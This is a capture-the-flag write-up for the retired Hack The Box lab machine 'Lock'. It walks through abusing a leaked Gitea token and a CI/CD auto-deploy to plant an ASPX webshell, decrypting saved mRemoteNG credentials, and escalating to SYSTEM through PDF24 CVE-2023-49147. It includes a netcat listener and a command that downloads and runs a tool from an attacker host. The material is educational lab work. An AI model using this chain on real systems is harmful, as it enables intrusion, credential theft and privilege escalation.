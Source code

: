 # 🔒 Lock — Writeup (inksec.io)

**Platform:** Hack The Box
**Domain:** `lock.htb`
**IP:** 10.129.139.121
**Difficulty:** Medium
**OS:** Windows
**Status:** Retired
**Writeup Path:** /CTF-Writeups/HTB/Lock/README.md
**Proof Image:** [https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/lock.png](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/lock.png)

> Tip: add host mapping first → `echo "10.129.139.121 lock.htb" | sudo tee -a /etc/hosts`

---

## Table of Contents

1. [Enumeration](#enumeration)
2. [Initial Access — Gitea CI/CD abuse](#initial-access--gitea-cicd-abuse)
3. [Post‑exploitation — Creds (mRemoteNG)](#post‑exploitation--creds-mremoteng)
4. [Privilege Escalation — PDF24 Creator (CVE‑2023‑49147)](#privilege-escalation--pdf24-creator-cve‑2023‑49147)
5. [Proofs](#proofs)
6. [Post‑Exploitation & Cleanup](#post‑exploitation--cleanup)
7. [Lessons Learned](#lessons-learned)
8. [References](#references)
9. [Command Log (raw)](#command-log-raw)

---

## Overview

Gitea on **3000/tcp** exposed a Personal Access Token (PAT) in commit history. Using that token we enumerated repos via the API and cloned the **website** repo. Pushing an **ASPX webshell** triggered CI/CD auto‑deploy → RCE as `ellen.freeman`. Looting **mRemoteNG** `config.xml` yielded RDP creds for `Gale.Dekarios`. From that session, abusing **PDF24 Creator** (CVE‑2023‑49147) with an **oplock** on its log produced a hanging **SYSTEM** console.

**TL;DR chain:** PAT leak in git → repo clone via API header → ASPX webshell push → RCE (ellen) → mRemoteNG creds → RDP (Gale) → PDF24 CVE‑2023‑49147 (oplock) → **SYSTEM**.

---

## Enumeration

### Rustscan / Nmap

```bash
export target=10.129.139.121
rustscan --ulimit 5000 -a $target -- -sC -sV -Pn -oN scans/nmap_full
# 80/tcp  http   (ASP.NET headers observed)
# 3000/tcp http  Gitea
```

### Web quick checks

```bash
curl -I http://lock.htb/
# note X-Powered-By / ASP.NET hints
```

### Gitea — find the leaked PAT quickly

```bash
git clone http://lock.htb:3000/some/public/repo.git tmp && cd tmp
# search for token symbol across all history
git log --all -p -S GITEA_ACCESS_TOKEN | sed -n '1,120p'
# (mask token in notes: 43ce39...362f)  ➜ rotate if exposed
```

### Gitea API enumeration (safer auth header)

```bash
export GITEA_PAT=43ce39bb0bd6bc48...7362f
# list repos without embedding token in the URL
git -c http.extraheader="Authorization: token $GITEA_PAT" \
    ls-remote http://lock.htb:3000/ellen.freeman/website.git
```

Clone with header:

```bash
git -c http.extraheader="Authorization: token $GITEA_PAT" \
    clone http://lock.htb:3000/ellen.freeman/website.git
```

---

## Initial Access — Gitea CI/CD abuse

CI/CD redeploys on push. Add a webshell and push a change:

```bash
cp ~/kits/webshells/aspx/webshell.aspx website/webshell.aspx
cd website
git add webshell.aspx && git commit -m "deploy webshell" && git push
```

Trigger shell:

```
http://lock.htb/webshell.aspx
```

Listener:

```bash
rlwrap nc -lvnp 4444
```

You should land as `ellen.freeman`.

---

## Post‑exploitation — Creds (mRemoteNG)

Locate saved mRemoteNG config and decrypt locally:

```powershell
# on target (PowerShell)
dir "$env:USERPROFILE\AppData\Roaming\mRemoteNG" -Filter *conf*.xml -Recurse
# copy the xml to attacker, then on attacker:
```

```bash
git clone https://github.com/kmahyyg/mremoteng-decrypt.git
python3 mremoteng-decrypt/mremoteng_decrypt.py -rf config.xml
# ➜ recovered: user Gale.Dekarios / pass ty8wnW9qCKDosXo6
```

RDP in:

```bash
xfreerdp3 /u:"Gale.Dekarios" /p:'ty8wnW9qCKDosXo6' /v:$target \
  /size:1280x720 /tls:seclevel:0 /cert:ignore
```

---

## Privilege Escalation — PDF24 Creator (CVE‑2023‑49147)

Check version:

```powershell
(Get-Item 'C:\Program Files\PDF24\pdf24-PrinterInstall.exe').VersionInfo.FileVersion
# vulnerable ≤ 11.15.1
```

Hold an **oplock** (read lock) on the log and run repair:

```powershell
# (host SetOpLock.exe yourself to avoid outbound fetches)
# attacker: python3 -m http.server 8000  (serve the exe)
# target PS:
iwr http://10.10.14.12:8000/SetOpLock.exe -OutFile $env:TEMP\SetOpLock.exe
& $env:TEMP\SetOpLock.exe 'C:\Program Files\PDF24\faxPrnInst.log' r
# Now open PDF24 Creator and run Repair (invokes msiexec /fa)
```

A **SYSTEM** cmd window should hang due to the oplock. Use it to spawn a proper SYSTEM shell.

Prove:

```powershell
whoami  # nt authority\system
Get-Content C:\Users\Administrator\Desktop\root.txt
```

---

## Proofs

```text
user.txt: HTB{3e2d99bad2f8025d1e9037829cREDACTED}
root.txt: HTB{a5397a3299e8f19f20dbb30e97REDACTED}
```

---

## Post‑Exploitation & Cleanup

* Remove webshell and redeploy a clean build.
* Delete dropped tooling (`SetOpLock.exe`).
* Clear recent docs/RDP artifacts as rules allow.
* **Rotate/expire** any exposed tokens (PAT).

---

## Lessons Learned

* CI/CD trust boundaries: never deploy unreviewed commits to prod.
* Secrets in git history are **forever** unless rotated—scan histories for tokens.
* Config files (mRemoteNG) often hold retrievable creds.
* PDF24 Creator < 11.15.2 is vulnerable; update closes this path.
* Oplocks are a potent but niche Windows primitive for privesc.

---

## References

* CVE‑2023‑49147 (PDF24 Creator) — vendor changelog notes fix in **11.15.2**.
* Google Project Zero symbolic‑link testing tools — `SetOpLock.exe`.
* mRemoteNG credential decryption — `mremoteng-decrypt` utility.
* HTB community write‑ups for "Lock" (cross‑check techniques).

---

## Command Log (raw)

```bash
# hosts mapping
printf "10.129.139.121 lock.htb\n" | sudo tee -a /etc/hosts

# scan
export target=10.129.139.121
rustscan --ulimit 5000 -a $target -- -sC -sV -Pn -oN scans/nmap_full
curl -I http://lock.htb/

# gitea history & API
git log --all -p -S GITEA_ACCESS_TOKEN
export GITEA_PAT=43ce39bb0bd6bc48...7362f
git -c http.extraheader="Authorization: token $GITEA_PAT" \
    clone http://lock.htb:3000/ellen.freeman/website.git

# webshell deploy
cp webshell.aspx website/webshell.aspx && cd website \
  && git add webshell.aspx && git commit -m "deploy webshell" && git push
rlwrap nc -lvnp 4444

# creds (mRemoteNG)
python3 mremoteng-decrypt.py -rf config.xml
xfreerdp3 /u:"Gale.Dekarios" /p:'ty8wnW9qCKDosXo6' /v:$target /size:1280x720 /tls:seclevel:0 /cert:ignore

# privesc (oplock)
iwr http://10.10.14.12:8000/SetOpLock.exe -OutFile $env:TEMP/SetOpLock.exe
$env:TEMP/SetOpLock.exe 'C:\\Program Files\\PDF24\\faxPrnInst.log' r
whoami && type C:\\Users\\Administrator\\Desktop\\root.txt
```
